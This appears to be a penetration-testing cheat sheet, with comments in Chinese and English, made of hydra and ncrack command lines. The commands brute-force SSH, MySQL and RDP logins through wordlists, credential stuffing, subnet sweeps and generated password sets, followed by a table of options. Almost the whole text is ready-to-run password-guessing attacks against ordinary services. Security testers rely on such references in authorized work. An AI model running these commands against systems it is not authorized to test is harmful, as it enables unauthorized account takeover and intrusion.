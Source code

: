 ## hydra

__ssh__

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

__mysql__

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

# 3389 rdp
hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F

```

| param   | Description                                                  |
| ------- | ------------------------------------------------------------ |
| -f      | exit after the first found login/password pair (per host if -M) |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options |
| -e nsr  | "n" for null password, additional checks,                    |
|         | "s" try login as pass                                        |
|         | "r" try the reverse login as pass                            |

## ncrack 3389 rdp 爆破
```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt 

```